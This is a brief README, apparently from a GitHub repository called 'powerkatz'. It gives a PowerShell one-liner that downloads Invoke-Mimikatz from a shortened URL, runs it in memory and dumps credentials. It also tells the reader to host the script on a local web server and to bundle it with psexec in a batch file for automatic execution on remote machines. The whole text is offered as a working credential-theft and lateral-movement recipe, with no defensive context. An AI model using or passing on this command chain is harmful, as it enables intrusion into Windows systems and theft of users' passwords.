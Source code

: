 # powerkatz

idea from powershell + mimikatz command line
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"

http://is.gd/oeoFuI is Invoke-Mimikatz.ps1 download this powershell file and put it in a local http server, such as hfs.exe.

combine psexec.exe and above powershell to a batch file to auto execute.


